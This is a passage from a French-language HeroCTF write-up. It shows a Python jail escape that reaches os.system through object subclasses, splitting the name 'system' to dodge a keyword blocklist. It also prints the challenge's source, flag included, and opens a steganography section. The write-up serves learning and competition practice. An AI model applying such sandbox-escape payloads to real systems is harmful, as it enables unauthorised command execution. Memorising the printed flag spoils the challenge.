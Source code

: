![Capture d’écran du 2023-05-15 16-33-22](https://github.com/Sleleu/HeroCTF_WriteUp/assets/93100775/f74bf35a-f896-4281-b656-09cb0806aad4)

On récupère finalement le flag ainsi que le code de la pyjail dans le fichier pyjail.py :

```python
>> "".__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['s' + 'ys' + 'tem']('cat pyjail.py')   
#! /usr/bin/python3

# FLAG : Hero{nooooo_y0u_3sc4p3d!!}

def jail():
    user_input = input(">> ")

    filtered = ["eval", "exec"]
    
    valid_input = True
    for f in filtered:
        if f in user_input:
            print("You're trying something fancy aren't u ?")
            valid_input = False
            break
    for l in user_input:
        if ord(l) < 23 or ord(l) > 126:
            print("You're trying something fancy aren't u ?")
            valid_input = False
            break
    
    if valid_input:
        try:
            exec(user_input, {'__builtins__':{'print': print, 'globals': globals}}, {})
        except:
            print("An error occured. But which...")

def main():
    try:
        while True:
            jail()
    except KeyboardInterrupt:
        print("Bye")

if __name__ == "__main__":
```

# Stegano

## LSD#2

Voici l’image de ce challenge :

<p align="center">
<img src="https://github.com/Sleleu/HeroCTF_WriteUp/assets/93100775/ba13ac93-f85f-4739-9b80-65d716481b88" width="500" height="500"/>
</p>
